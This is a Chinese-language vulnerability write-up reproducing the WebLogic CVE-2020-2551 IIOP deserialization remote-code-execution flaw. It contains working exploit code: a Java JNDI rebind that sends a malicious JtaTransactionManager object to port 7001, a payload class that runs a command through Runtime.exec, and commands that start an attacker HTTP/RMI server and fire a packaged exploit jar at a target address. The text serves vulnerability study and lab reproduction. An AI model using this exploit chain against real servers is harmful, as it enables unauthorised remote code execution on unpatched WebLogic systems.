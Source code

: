 

（CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
-----------------------------------------------------------

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);
    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);
    
    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId25.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId26.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId27.png)

然后通过反射调用**JtaTransactionManager**的\*\*readObject()\*\*跟进

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId28.png)

到此之后就是Weblogic的CVE-2018-3191 spring
JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId29.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId30.png)

此时\*\*lookup()\*\*参数可控

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId31.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

    https://github.com/ianxtianxt/CVE-2020-2551

**打包好的jar包**

    https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

    package payload;
    
    import java.io.IOException;
    
    public class exp {
    
        public exp() {
            String cmd = "curl http://172.16.1.1/success";
            try {
                Runtime.getRuntime().exec(cmd).getInputStream();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

    python -m http.server --bind 0.0.0.0 80

命令行运行jar包

    java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp

实际效果如图

![](./.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId33.gif)

参考链接
--------

> https://y4er.com/post/weblogic-cve-2020-2551/
